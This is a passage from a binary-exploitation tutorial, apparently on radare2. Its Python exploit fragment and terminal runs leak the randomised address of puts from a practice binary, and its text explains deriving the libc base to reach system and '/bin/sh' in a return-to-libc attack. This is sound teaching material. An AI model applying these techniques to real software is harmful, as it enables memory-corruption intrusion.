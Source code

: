 ```
              Now we need to fill in the addresses that we&#8217;ve found:
            </p>
            
            ```python
...

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

...

```

          </div>
          
          <p>
            Let&#8217;s execute the script:
          </p>
          
          <div style="overflow-x: auto; margin: 0 0 20px;">
            <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
              <tr style="height: 19.8594px;">
                <td style="height: 19.8594px;">
                  $ python <span style="color: #33cccc;">exploit.py</span><br /> <span style="color: #00ccff;">[+]</span> Starting local process &#8216;./megabeets_0x2&#8217;: pid 23578<br /> <span style="color: #00ccff;">[*]</span> puts is at: 0xf75db710<br /> <span style="color: #00ccff;">[*]</span> Stopped process &#8216;./megabeets_0x2&#8217; (pid 23578)<br /> <span style="color: #cc99ff;">  </span><br /> $ python <span style="color: #33cccc;">exploit.py</span><br /> <span style="color: #00ccff;">[+]</span> Starting local process &#8216;./megabeets_0x2&#8217;: pid 23592<br /> <span style="color: #00ccff;">[*]</span> puts is at: 0xf7563710<br /> <span style="color: #00ccff;">[*]</span> Stopped process &#8216;./megabeets_0x2&#8217; (pid 23592)<br /> <span style="color: #cc99ff;">  </span><br /> $ python <span style="color: #33cccc;">exploit.py</span><br /> <span style="color: #00ccff;">[+]</span> Starting local process &#8216;./megabeets_0x2&#8217;: pid 23606<br /> <span style="color: #00ccff;">[*]</span> puts is at: 0xf75e3710<br /> <span style="color: #00ccff;">[*]</span> Stopped process &#8216;./megabeets_0x2&#8217; (pid 23606)
                </td>
              </tr>
            </table>
          </div>
          
          <p>
            I executed it 3 times to show you how the address of <code>puts</code> has changed in each run. Therefore we cannot predict its address beforehand. Now we need to find the offset of <code>puts</code> in <em>libc</em> and then calculate the base address of <em>libc</em>. After we have the base address we can calculate the real addresses of  <code>system</code>, <code>exit</code> and <code>"/bin/sh"</code> using their offsets.
          </p>
          
          <p>
            Our skeleton now should look like this:
          </p>
          

 [1]: https://www.megabeets.net/a-journey-into-radare-2-part-1/
 [2]: https://en.wikipedia.org/wiki/NX_bit
 [3]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
 [4]: https://en.wikipedia.org/wiki/Call_stack
 [5]: https://en.wikipedia.org/wiki/Buffer_overflow
 [6]: https://en.wikipedia.org/wiki/Return-oriented_programming
 [7]: https://en.wikipedia.org/wiki/X86_calling_conventions
 [8]: https://www.megabeets.n./r2_part1_2.png
 [9]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2
 [10]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2.c
 [11]: https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries
 [12]: https://en.wikipedia.org/wiki/Position-independent_code
 [13]: https://tk-blog.blogspot.co.il/2009/02/relro-not-so-well-known-memory.html
 [14]: https://reverseengineering.stackexchange.com/a/16115/18698
 [15]: https://www.megabeets.n./mainsym.png
 [16]: https://www.megabeets.n./beetsym.png
 [17]: https://www.megabeets.n./tumblr_m5vxpy8Cs41qfoh4t.gif
 [18]: https://en.wikipedia.org/wiki/De_Bruijn_sequence
 [19]: https://en.wikipedia.org/wiki/C_standard_library
 [20]: https://en.wikipedia.org/wiki/Return-to-libc_attack
 [21]: https://en.wikipedia.org/wiki/Shellcode
